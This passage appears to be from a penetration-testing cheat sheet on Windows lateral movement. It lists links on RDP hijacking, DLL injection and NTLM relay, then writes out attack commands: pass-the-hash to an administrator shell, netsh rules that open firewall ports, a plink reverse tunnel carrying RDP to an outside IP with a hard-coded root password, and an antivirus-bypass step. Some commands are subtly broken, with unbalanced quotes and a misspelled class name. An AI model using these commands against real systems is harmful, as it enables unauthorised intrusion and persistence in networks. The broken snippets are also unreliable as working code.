 ##### RDP

[RDP Hijacking: How to hijack RDS and RemoteApp sessions transparently to move through an organization](https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6)

##### DLL Injection

[Windows DLL Injection Basics](http://blog.opensecurityresearch.com/2013/01/windows-dll-injection-basics.html)

[Portable Execution Injection](http://www.malwaretech.com/2013/11/portable-executable-injection-for.html)

[Automated DLL Enumeration](https://github.com/sensepost/rattler)

[Automated DLL Injection](https://github.com/fdiskyou/injectAllTheThings/)

##### NTLM/v2

[Practical guide to NTLM Relaying in 2017 AKA Getting a foothold in under 5 minutes](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)

[SMB Relay demystified and NTLMv2 Pwnage with Python](https://pen-testing.sans.org/blog/pen-testing/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python)

##### Token Stealing

Once you have admin access on a computer, you can use the tokens of the other users to access resources in the domain.

##### Passing the Hash

```
Kali> export SMBHASH="HASH"
Kali> pth-winexe -U administrator //$TARGET cmd
```

[Pass the Hash toolkit](https://github.com/byt3bl33d3r/pth-toolkit)

##### runas

[Invoke-Runas](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-Runas.ps)

[Runas Reference](https://ss64.com/nt/runas.html)

##### Encapsulating SSH Traffic with httptunnel

```
# Bypass Notify with administrative account
$secpasswd = ConvertTo-SecureString "password" -AsPlainText -Force
$mycreds = New-Object System.Management.Automtion.PSCredential("Administrator", $secpasswd)
$computer = "DEV01"
powershell -ExecutionPolicy Bypass -File c:\Windows\temp\run.ps1

# add ruleset for firewall
C:\> netsh advfirewall firewall add rule name ="httptunnel_client" dir=in action=allow program="httptunnel_client.exe enable=yes
C:\> netsh advfirewall firewall add rule name ="3000" dir=in action=allow protocol=TCP localport=3000
C:\> netsh advfirewall firewall add rule name="1080 dir=in action=allow protocol=TCP localport=1080
C:\> netsh advfirewall firewall add rule name="1079" dir=in action=allow protocol=TCP localport=1079
C:\> httptunnel_client.exe

# upload /usr/share/windows-binaries/plink.exe then setup port forward
C:\> plink -l root -pw pass -R 3389:127.0.0.1:3389 208.68.234.99 -P 3000

# Bypass Anti-virus
Kali> cp payload.exe newpayload.exe
```